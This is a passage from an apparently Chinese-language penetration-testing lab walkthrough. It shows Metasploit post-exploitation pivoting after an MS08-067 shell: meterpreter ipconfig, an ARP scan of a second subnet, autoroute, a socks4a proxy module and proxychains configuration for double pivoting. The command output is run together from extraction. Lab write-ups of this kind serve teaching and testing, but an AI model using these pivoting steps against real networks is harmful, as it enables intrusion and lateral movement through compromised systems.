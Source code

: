 成功溢出getshell后查看JC(7.7.7.20)网卡信息:

```
meterpreter &gt; ipconfigInterface  1============Name         : MS TCP Loopback interfaceHardware MAC : 00:00:00:00:00:00MTU          : 1520IPv4 Address : 127.0.0.1Interface 65539============Name         : Intel(R) PRO/1000 MT Desktop AdapterHardware MAC : 08:00:27:29:cd:cbMTU          : 1500IPv4 Address : 8.8.8.3IPv4 Netmask : 255.255.255.0Interface 65540============Name         : Intel(R) PRO/1000 MT Desktop Adapter #2Hardware MAC : 08:00:27:e3:47:43MTU          : 1500IPv4 Address : 7.7.7.20IPv4 Netmask : 255.255.255.0meterpreter &gt;
```

发现又出现一个8.8.8.x的网段,于是将这个网段添加路由,以便msf中的模块可以访问到8.8.8.x网段.<br>

<br>

**0x03 Step3**



先直接用新的meterpreter shell看看8.8.8.x这个网段有什么机器

```
meterpreter &gt; run post/windows/gather/arp_scanner RHOSTS=8.8.8.0/24[*] Running module against SRV03[*] ARP Scanning 8.8.8.0/24[*]   IP: 8.8.8.3 MAC 08:00:27:29:cd:cb (CADMUS COMPUTER SYSTEMS)[*]   IP: 8.8.8.1 MAC 0a:00:27:00:00:03 (UNKNOWN)[*]   IP: 8.8.8.9 MAC 08:00:27:56:f1:7c (CADMUS COMPUTER SYSTEMS)[*]    IP: 8.8.8.13 MAC 08:00:27:13:a3:b1 (CADMUS COMPUTER SYSTEMS)
```

为了让msf中所有模块都能访问到8.8.8.x网段,在新的meterpreter会话中添加路由:

```
meterpreter &gt; run autoroute -s 8.8.8.0/24[*] Adding a route to 8.8.8.0/255.255.255.0...[+] Added route to 8.8.8.0/255.255.255.0 via 7.7.7.20[*] Use the -p option to list all active routes
```

为了让Attacker的除了msf模块以外的其他应用程序能访问到8.8.8.x网段,再使用msf的开启sock4代理的模块开启另外一个端口 作为8.8.8.x网段的入口:

```
msf exploit(ms08_067_netapi) &gt; use auxiliary/server/socks4a 
msf auxiliary(socks4a) &gt; show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  172.16.0.20      yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) &gt; set SRVPORT 1081SRVPORT =&gt; 1081msf auxiliary(socks4a) &gt; run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) &gt;
```

也即现在Attacker本地的1080端口的代理可以访问到7.7.7.x网段,1081端口的代理可以访问到8.8.8.x网段,然后将新开的端口 添加到proxychains的配置文件中:



```
root@kali:~# cat /etc/proxychains.conf | grep -v "#"dynamic_chainproxy_dns tcp_read_time_out 15000tcp_connect_time_out 8000socks4  172.16.0.20 1080  # First Pivotsocks4  172.16.0.20 1081  # Second Pivot
```
